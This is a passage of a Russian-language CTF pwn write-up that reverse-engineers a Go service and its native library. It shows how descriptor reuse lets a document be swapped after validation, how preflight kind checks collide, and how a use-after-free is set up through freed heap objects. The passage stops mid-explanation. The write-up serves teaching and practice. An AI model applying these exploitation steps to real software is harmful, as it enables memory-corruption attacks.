# Диаметры

Категория: pwn

Флаг: `flag{d14m3t3rs_m3rg3_th3_n3tw0rk}`

## 0. Что получили

В архиве лежат Go-сервис, веб-интерфейс, утилита `tools/fdp.py`, образец `runtime/samples/dispatch.fdp`, нативная библиотека `runtime/amd64/libfdhost.so` и точная `libc.so.6`.

Готовую библиотеку `runtime/amd64/libfdhost.so` открываю в IDA. Go-часть читаю по исходному коду из архива, а поведение нативной библиотеки восстанавливаю по дизассемблеру и псевдокоду.

Сначала фиксирую хеш библиотеки. Все смещения ниже относятся именно к этому файлу:

```bash
file runtime/amd64/libfdhost.so
sha256sum runtime/amd64/libfdhost.so runtime/amd64/libc.so.6
checksec file runtime/amd64/libfdhost.so
readelf -Ws runtime/amd64/libfdhost.so | rg 'fdhost_'
```

Получаю:

```text
libfdhost.so: ELF 64-bit LSB shared object, x86-64, dynamically linked, stripped

sha256(libfdhost.so):
9d0782de3ba33eda31b2cc7aa355fc8afd3fcb0c7eb23c0467f83b3171ea3936

RELRO: Full RELRO
Canary: found
NX: enabled
PIE: enabled
```

Библиотека stripped, но ее публичный API остался в динамических символах:

```text
0x3de0 fdhost_runtime_create
0x4120 fdhost_runtime_destroy
0x41d0 fdhost_runtime_cartridge_fd
0x4200 fdhost_submit
0x4270 fdhost_execute
0x42b0 fdhost_wait
0x43e0 fdhost_result
0x4550 fdhost_forget
```



Stripped не мешает начать анализ. Имена внутренних функций потеряны, но экспортированные `fdhost_submit`, `fdhost_execute` и `fdhost_result` сразу дают точки входа.

В IDA открываю `libfdhost.so`, дожидаюсь конца анализа и иду в `View -> Open subviews -> Exports`. Отсюда начинаю с `fdhost_submit`, потому что именно эта функция создает job.



## 1. Проходим штатный сценарий

На стартовой странице сервис выглядит как конструктор маршрутов. Можно создать asset из штатного sample, поставить job в очередь, отозвать asset, вызвать collector, загрузить другой FDP в cartridge и выполнить compact.


Создаю первый asset и ставлю от него обычную job. В этот момент сервис сообщает, что preflight сохранен, но сама job еще не выполнена.



Здесь появляется первый вопрос: что именно сохраняется между submit и release?

1. Библиотека может сохранить копию всего FDP.
2. Библиотека может сохранить только ссылку на источник и прочитать FDP еще раз при execution.

Если верен второй вариант, можно провести preflight на штатном документе, а выполнить уже измененный документ.

## 2. Находим разрыв между preflight и execution

### 2.1. Что сохраняет Go-обертка

В `internal/service/workspace.go` нахожу `QueueJob`. Ключевые строки выглядят так:

```go
sourceFD := selected.lease.FD()

w.opMu.Lock()
nativeID, err := w.host.Submit(sourceFD)
w.opMu.Unlock()
```

В нативную библиотеку передается не путь, не Go-объект и не копия документа. Передается обычное целое число `sourceFD`.

Это еще не уязвимость. Числовой дескриптор безопасен, если его значение до execution всегда относится к тому же открытому файлу. Поэтому дальше смотрю descriptor arena.

### 2.2. Как меняется descriptor slot

В `internal/fdarena/arena.go` нахожу `Retire`:

```go
func (a *Arena) Retire(lease *Lease) bool {
    ...
    syscall.Dup3(int(a.reserve.Fd()), lease.fd, syscall.O_CLOEXEC)
    a.active[lease.slot] = nil
    a.states[lease.slot] = slotRetired
    return true
}
```

После retire номер `lease.fd` не закрывается. Через `dup3` этот же номер начинает ссылаться на reserve.

Затем в `Compact` есть второй `dup3`:

```go
func (a *Arena) Compact(sourceFD int) (int, error) {
    ...
    for slot, state := range a.states {
        if state != slotRetired {
            continue
        }
        target := a.base + slot
        syscall.Dup3(sourceFD, target, syscall.O_CLOEXEC)
        a.states[slot] = slotInternal
    }
}
```

Теперь cartridge дублируется в retired slot. Число дескриптора остается прежним, но объект ядра за ним меняется дважды:

```text
до revoke:             slot fd -> исходный asset
после collector:       slot fd -> reserve
после upload+compact:  slot fd -> cartridge
```

### 2.3. Подтверждаем разрыв в IDA

В IDA открываю `fdhost_submit` через Exports. Если курсор не там, нажимаю `G`, ввожу `4200`, затем `F5`.

В начале функции аргументы соответствуют System V ABI:

```text
rdi = runtime
esi = source_fd
```

Перед вызовом внутренней функции по `0x4235` значение `esi` копируется в `edx`. Никакого `dup`, `read` или копирования документа в `fdhost_submit` нет.

```text
0x4228 mov edx, esi
0x4230 mov esi, 1
0x4235 call sub_1910
```



Теперь нужно найти повторное чтение. В `fdhost_execute` по `0x4270` виден только вызов той же внутренней очереди с командой `2`. Перехожу внутрь worker loop и дохожу до ветки execution около `0x2ed0`.

Там вижу такую последовательность:

```text
0x3007 mov rax, [rax+0xcd0]  ; active job
0x3012 mov edi, [rax+8]      ; job->source_fd
0x3015 call sub_1510         ; map fd
...
0x3037 call sub_1790         ; parse FDP
...
0x307c call sub_20b0         ; выполнить node
```

Это подтверждает гипотезу полностью. Submit проверяет документ через числовой fd, сохраняет этот fd в job, а execution снова отображает документ через тот же номер.



### 2.4. Практическая последовательность

Создаю два asset:

```text
main - источник для заранее подготовленных job
late - живой источник для victim job после compact
```

От `main` ставлю в очередь ровно 13 job. Число 13 не магическое. В `workspace.go` есть `maxJobs = 16`, а дальше понадобятся еще три job: `victim0`, `victim1` и `victim2`. Поэтому заранее можно занять только `16 - 3 = 13` мест.

После этого:

1. Отзываю `main`.
2. Запускаю collector и жду `collected=true`.
3. Загружаю изменяемый FDP в cartridge.
4. Запускаю compact.
5. Не удаляю `late`.



После compact старые job уже прошли preflight на `dispatch.fdp`, но при release читают текущий cartridge.



Так получаю первый примитив: содержимое FDP можно менять после preflight.

## 3. Разбираем формат FDP4 по байтам

Формат полностью описан в выданной утилите `tools/fdp.py`:

```python
MAGIC = b"FDP4"
VERSION = 4
NODE_COUNT = 8
SMALL_CAPACITY = 0x400
LARGE_CAPACITY = 0x500

HEADER = struct.Struct("<4sBBHIIQ")
NODE = struct.Struct("<BBHIIIIIII")
```

Символ `<` означает little-endian без нативного выравнивания.

Заголовок занимает 24 байта:

| Offset | Размер | Поле |
| ---: | ---: | --- |
| `0x00` | 4 | magic `FDP4` |
| `0x04` | 1 | version `4` |
| `0x05` | 1 | число node, всегда `8` |
| `0x06` | 2 | reserved |
| `0x08` | 4 | длина data |
| `0x0c` | 4 | reserved |
| `0x10` | 8 | `document_id` |

Одна node занимает 32 байта:

| Offset | Размер | Поле |
| ---: | ---: | --- |
| `0x00` | 1 | kind |
| `0x01` | 1 | flags |
| `0x02` | 2 | reserved |
| `0x04` | 4 | object id |
| `0x08` | 4 | target id |
| `0x0c` | 4 | data offset |
| `0x10` | 4 | data length |
| `0x14` | 4 | declared capacity |
| `0x18` | 4 | arg |
| `0x1c` | 4 | reserved |

Коды операций:

```text
block  = 0x11
window = 0x21
filter = 0x31
claim  = 0x41
nop    = 0x51
```

Это не ASCII-команды. Например, `0x11` является сырым байтом kind, а не символом `0x31`, который обозначал бы ASCII-цифру `1`.

Для просмотра sample использую штатную команду:

```bash
python3 tools/fdp.py dump runtime/samples/dispatch.fdp
```



Важные node исходного документа:

| Node | Kind | Flags | Capacity | Роль |
| ---: | --- | --- | ---: | --- |
| 0 | block | large, persist | `0x500` | постоянный большой block |
| 1 | block | large, cleanup | `0x500` | временный большой block |
| 2 | block | small, cleanup | `0x400` | временный small block |
| 3 | block | small, cleanup | `0x400` | временный small block |
| 4 | block | small, persist, write | `0x400` | writable persistent object |
| 5 | block | small, persist | `0x400` | persistent object |
| 6 | block | small, persist, output, write | `0x400` | writable output object |
| 7 | filter | write | `0` | запись в target |

`document_id` равен `0x6863746170736964`. Если записать это число little-endian байтами, получится строка `dispatch`.

При сборке пакетов сохраняю magic, version, node count, `document_id`, flags и `declared_capacity`. Меняю только kind внутри разрешенного класса, object id, target id, arg и data.

## 4. Находим коллизии preflight

### 4.1. Доходим до проверки kind

В IDA от `fdhost_submit` перехожу внутрь `sub_1910`, затем в ветку команды `1`. В ней сначала отображается FDP, потом вызывается parser, а после parser идет цикл по восьми node.

Внутри цикла интересен вызов `sub_12f0`. Он получает:

```text
rdi = document_id
rsi = node index
rdx = kind byte
```

Чтобы открыть функцию напрямую, нажимаю `G`, ввожу `12f0`, затем `F5`.

В начале `sub_12f0` kind превращается в индекс:

```text
0x11 block  -> 0
0x21 window -> 1
0x31 filter -> 2
0x41 claim  -> 3
0x51 nop    -> 4
```

Затем функция берет байт из таблицы по адресу `0x5020` и xor-ит его с salt, зависящим от `document_id` и номера node.



Псевдокод функции:

```python
salt_input = document_id ^ rol64(node_index + 1, 11) ^ 0x736c6f742d6b696e
kind_class = table[node_index][kind_index] ^ low_byte(mix64(salt_input))
```

Salt не мешает искать коллизии. Для одной и той же node и одного `document_id` он одинаков у исходного и подмененного документа. Достаточно найти одинаковые байты в одной строке таблицы.

### 4.2. Читаем таблицу

В IDA ставлю курсор на `byte_5020` и нажимаю Enter. Если переход не сработал, нажимаю `G` и ввожу `5020`.

Таблица занимает `8 * 5 = 40` байт. Пять столбцов идут в порядке `block`, `window`, `filter`, `claim`, `nop`:

```text
node 0: 10 11 12 13 10
node 1: 20 21 22 23 20
node 2: 30 30 31 32 30
node 3: 40 40 41 42 40
node 4: 50 50 50 51 50
node 5: 60 60 61 62 60
node 6: 70 70 70 71 70
node 7: 81 82 80 83 80
```



Коллизии:

| Node | Одинаковый class | Взаимозаменяемые kind |
| ---: | ---: | --- |
| 2 | `0x30` | block, window, nop |
| 3 | `0x40` | block, window, nop |
| 4 | `0x50` | block, window, filter, nop |
| 5 | `0x60` | block, window, nop |
| 6 | `0x70` | block, window, filter, nop |
| 7 | `0x80` | filter, nop |

### 4.3. Что execution сравнивает

В execution path около `0x2230` повторно вызывается `sub_12f0`. После вызова библиотека сравнивает class, flags и capacity. Сырой kind не сравнивается.

```text
0x223a call sub_12f0
0x223f cmp al, [saved_plan + node*8 + 0x20]
0x224c cmp [parsed_node + 1], al
0x2257 cmp [parsed_node + 0x14], ecx
```



Так получаю точное ограничение: flags и capacity трогать нельзя.

## 5. Строим UAF через cleanup и persistent window

### 5.1. Первый документ создает два объекта

Первую старую job называю `create0`. В ее cartridge оставляю активными только node 4 и 6:

```text
node 4: block, object_id=work_a, payload="A"
node 6: block, object_id=work_b, payload="B"
остальные node: nop внутри разрешенных классов
```

Флаги и capacity остаются штатными. Оба объекта получают allocation размера `0x400`.

### 5.2. Второй документ освобождает объекты и оставляет aliases

Вторую старую job называю `free0`:

```text
node 2: cleanup window, target=work_b, arg=0
node 3: cleanup window, target=work_a, arg=0
node 4: persistent writable window, object=alias_a, target=work_a, arg=1
node 6: persistent writable output window, object=alias_b, target=work_b, arg=1
```

В начале execution библиотека разрешает зависимости всех node и делает materialized records. Node 4 и 6 получают указатели внутрь `work_a` и `work_b`, пока исходные объекты еще живы.

После обработки node запускается cleanup. Для owned объекта библиотека вызывает `free`, а затем обнуляет только слот владельца. Persistent borrowed window не инвалидируется.



После `free0` registry все еще содержит:

```text
alias_a -> work_a + 1
alias_b -> work_b + 1
```

Но сами `work_a` и `work_b` уже находятся в tcache. Это и есть UAF.

### 5.3. Почему используется смещение `+1`

После `free` glibc записывает safe-linked `next` в первые восемь байт user data chunk:

```text
encoded_next = next ^ (chunk_address >> 12)
```

В библиотеке есть дополнительная проверка этой связи около `0x2816`.

